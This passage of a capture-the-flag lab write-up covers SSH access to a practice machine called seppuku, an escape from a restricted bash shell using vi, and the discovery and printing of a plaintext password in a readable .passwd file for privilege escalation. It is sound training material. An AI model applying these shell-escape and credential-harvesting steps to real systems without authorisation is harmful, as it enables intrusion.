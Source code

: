 ## SSH Foothold
---
After successfully logging in as the user seppuku we are greeted with a restricted bash shell

```
┌──(hhhharshil㉿kali)-[~/Desktop/seppuku]
└─$ ssh seppuku@192.168.116.90 
seppuku@192.168.116.90's password: 
Linux seppuku 4.19.0-9-amd64 #1 SMP Debian 4.19.118-2 (2020-04-29) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Dec 29 15:22:39 2021 from 192.168.49.116
seppuku@seppuku:~$ cd .
-rbash: cd: restricted
```
This can be bypassed however using a vi to escape the rbash shell

```
seppuku@seppuku:~$ vi
(in vi)
:set shell=/bin/bash
:shell

```
## Privilege Escalation
---
Looking through the home folder of the user seppuku we find a .passwd file. Now that we have new credentials we can try switching users.

```
seppuku@seppuku:~$ ls -la
total 36
drwxr-xr-x 3 seppuku seppuku 4096 Dec 29 15:22 .
drwxr-xr-x 5 root    root    4096 May 13  2020 ..
-rw------- 1 seppuku seppuku   20 Dec 29 15:22 .bash_history
-rw-r--r-- 1 seppuku seppuku  220 May 13  2020 .bash_logout
-rw-r--r-- 1 seppuku seppuku 3526 May 13  2020 .bashrc
drwx------ 3 seppuku seppuku 4096 May 13  2020 .gnupg
-rw-r--r-- 1 seppuku seppuku   33 Dec 29 14:48 local.txt
-rw-r--r-- 1 root    root      20 May 13  2020 .passwd
-rw-r--r-- 1 seppuku seppuku  807 May 13  2020 .profile
seppuku@seppuku:~$ cat .passwd 
12345685213456!@!@A

```
